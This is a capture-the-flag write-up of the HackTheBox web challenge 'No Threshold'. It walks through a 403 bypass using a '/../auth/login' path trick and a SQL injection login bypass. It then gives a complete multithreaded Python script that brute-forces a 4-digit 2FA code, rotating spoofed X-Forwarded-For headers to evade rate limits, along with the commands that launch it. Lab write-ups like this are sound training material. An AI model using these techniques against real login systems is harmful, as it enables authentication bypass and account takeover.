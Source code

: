 ```yaml
---
title: No Threshold
tags:
  - HackTheBox
  - Challenge
  - Web
  - 403_Bypass
  - SQLi
  - Python-Scripting
  - Easy
date: 2024-09-22T00:00:00Z
---
```

![](Pasted%20image%2020241122112333.png)

It seems to be kinda shop. If I try to login I get a Forbidden error:

![](Pasted%20image%2020241122112404.png)

I have to bypass this, so I captured the request with Burp:

![](Pasted%20image%2020241122112445.png)

> With `/../auth/login` I can bypass it :D

![](Pasted%20image%2020241122112522.png)

If we read the `entrypoint.sh` we notice that there is a random user created, so might be a SQLi vulnerability on the login:

![](Pasted%20image%2020241122112746.png)

I captured the request and try some SQLis:

![](Pasted%20image%2020241122113207.png)

It actually worked with `admin' OR 1=1 -- -` (URL encoded) :D

Now I got into a 2FA panel verification:

![](Pasted%20image%2020241122113324.png)

Inspecting the source code, I noticed that the 2FA code has 4 digits, so I can try to bruteforce it:

![](Pasted%20image%2020241122113530.png)

So I decided to create a python script to bruteforce it:

```python
import requests
import sys
import argparse
from concurrent.futures import ThreadPoolExecutor

# Colores para las impresiones
GREEN = '\033[92m'
BLUE = '\033[94m'
RED = '\033[91m'
RESET = '\033[0m'

def get_combinations_in_array(path):
    with open(path, 'r') as f:
        return f.read().splitlines()


def handle_response(response, combination):
    if "Invalid 2FA Code!" in response.text:
        # Mostrar intentos en verde
        print(f'{GREEN}Try: {combination}{RESET}\n')
        return
    elif "flag" in response.text:
        # Mostrar flag en azul
        print(f'{BLUE}GOT IT!\n2FA Code: {combination}\n{response.text}{RESET}\n')
        sys.exit()
    else:
        # Mostrar errores en rojo
        print(f'{RED}{response.text}{RESET}')


def send_request(ip, combination, headers, url):
    headers['X-Forwarded-For'] = ip
    data = {'2fa-code': str(combination)}

    response = requests.post(url, headers=headers, data=data)
    handle_response(response, combination)


def send_all_requests(url, combinations_array, ip_suffix):
    base_ip = '192.168.'
    current_ip_suffix = list(map(int, ip_suffix.split('.')))  # Convertir a lista de enteros
    headers = {
        'Host': '83.136.254.158:36141',
        'Content-Length': '13',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://83.136.254.158:36141',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8',
        'Sec-GPC': '1',
        'Accept-Language': 'en-US,en',
        'Referer': 'http://83.136.254.158:36141/auth/verify-2fa',
        'Accept-Encoding': 'gzip, deflate, br',
        'Connection': 'keep-alive'
    }

    # Multi-threading requests sending (see python ThreadPoolExecutor lib for more information)
    with ThreadPoolExecutor(max_workers=100) as executor:
        futures = []

        for i, combination in enumerate(combinations_array, start=1):
            ip = base_ip + str(current_ip_suffix[0]) + '.' + str(current_ip_suffix[1])

            future = executor.submit(send_request, ip, combination, headers, url)
            futures.append(future)

            if i % 5 == 0:
                current_ip_suffix[1] += 1

            if current_ip_suffix[1] > 254:
                current_ip_suffix[1] = 1
                current_ip_suffix[0] += 1

            if current_ip_suffix[0] > 254:
                current_ip_suffix = [1, 1]

            for future in futures:
                future.result()


def parse_arguments():
    parser = argparse.ArgumentParser(description="Brute force 2FA codes to find the flag.")
    parser.add_argument('--target', type=str, required=True, help='The target URL (e.g., http://example.com)')
    parser.add_argument('--combinations', type=str, required=True, help='Path to the file containing the list of 2FA combinations')
    parser.add_argument('--ip-suffix', type=str, required=True, help='The IP suffix to use for requests (e.g., 1.1)')

    return parser.parse_args()


if __name__ == '__main__':
    args = parse_arguments()

    combinations_array = get_combinations_in_array(args.combinations)
    send_all_requests(args.target, combinations_array, args.ip_suffix)

```


>[!Note]
>Since the 2fa code valid time is 5 mins, I'm splitting the wordlist into 5 wordlists of 2000 words each

![](Pasted%20image%2020241122170553.png)

I created the wordlists with the following commands:

```shell
seq -w 0000 2000 > 0k2k-digit-wordlist.txt
seq -w 2001 4000 > 2k4k-digit-wordlist.txt
seq -w 4001 6000 > 4k6k-digit-wordlist.txt
seq -w 6001 8000 > 6k8k-digit-wordlist.txt
seq -w 8001 9999 > 8k10k-digit-wordlist.txt

# Then open a console for each one like:
python x.py --target http://83.136.254.158:36141/auth/verify-2fa --combinations ./4k6k-digit-wordlist.txt  --ip-suffix 13.1
```

I executed different intervals at same time:

![](Pasted%20image%2020241122171242.png)

> Finally got it :D

![](Pasted%20image%2020241122171427.png)

==Challenge completed!==
